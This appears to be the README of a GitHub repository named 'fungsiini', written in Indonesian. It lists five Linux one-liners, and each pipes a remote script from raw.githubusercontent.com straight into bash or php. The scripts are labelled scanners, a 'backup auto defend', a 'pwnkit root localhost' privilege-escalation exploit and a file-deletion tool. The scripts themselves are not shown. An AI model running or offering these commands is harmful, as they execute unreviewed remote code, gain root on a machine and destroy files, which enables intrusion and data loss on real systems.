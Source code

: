 # fungsiini Command line linux
# Robot Mabok Anti

1, scaner cepat 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/sca.sh | bash > hascan.txt 2>&1

2, backup auto defend

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/cod.php | php - backup y > hackup.txt 2>&1

3, scanner powerfull 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/outsca.php | php

4, pwnkit root localhost

wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/pwk.sh -q -O - |bash

5, Mendelet berdasarkan nama file kon7l

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/delet.php | php namafile.php
